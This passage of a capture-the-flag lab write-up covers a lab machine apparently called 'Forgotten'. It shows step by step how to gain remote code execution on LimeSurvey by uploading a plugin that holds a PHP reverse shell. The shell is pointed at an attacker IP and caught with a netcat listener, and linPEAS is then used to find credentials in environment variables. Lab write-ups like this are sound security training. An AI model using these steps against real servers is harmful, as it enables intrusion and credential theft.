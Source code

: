 Firstly, let's clone the repository with `git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git`. This will clone the repository to our machine, to which we can use the files within it.

According to the README, all that is required of us is to compress the `php-rev.php` and `config.xml` to a zip file and upload it as a plugin. There are a few prerequisites that we'll need to take into account in terms of file changes before sending the plugin into the server.

First, let's change the `php-rev.php` IP address and port to point to a netcat reverse shell that we'll stand up on our attack machine in a few moments.

`$ip = '10.8.0.173';`
`$port = 9001;`

Next, we'll need to change the `config.xml` to make it usable on our current LimeSurvey version. If we do not change this, LimeSurvey will tell us that our plugin is incompatible when we attempt to upload it. This is within the `<compatibility>` subcategory within the xml file.

`<version>6.3.7</version>`

Afterwards, let's start a netcat reverse shell to listen on our attack machine so we can receive a callback when the reverse shell is executed.

`nc -lvnp 9001`

Finally, let's compress the two files to a zip archive and prepare to send it in to LimeSurvey.

`zip Y1LD1R1M.zip config.xml php-rev.php`

We can now upload our archive to the LimeSurvey `Plugins` panel, as denoted below.

![](/images/vulnlab/forgotten-vl/g.jpg)

If we have performed all the steps prior correctly, LimeSurvey will allow us to install the plugin after this page.

The plugin can now be accessed at `http://10.10.113.195/survey/upload/plugins/Y1LD1R1M/php-rev.php`.

Accessing this will execute our reverse shell and generate a session for us through netcat as the `limesvc` user.

![](/images/vulnlab/forgotten-vl/h.jpg)

# Host Reconnaissance

Now that we are on the system and have successfully exploited the web-application, though you'll find that there is no user flag.

This was relatively confusing, as I looked within the Wiki and found that there was indeed a user flag that was present on the machine.

To make our enumeration a little easier, I uploaded the `Linpeas` script which you can find [here](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS). `Linpeas` will essentially enumerate the entire filesystem and return and pertinent information it finds for us.

After running the `Linpeas` script on the remote machine, you'll find in it's output that there is an environment variable set that lists the password of the user through SSH.
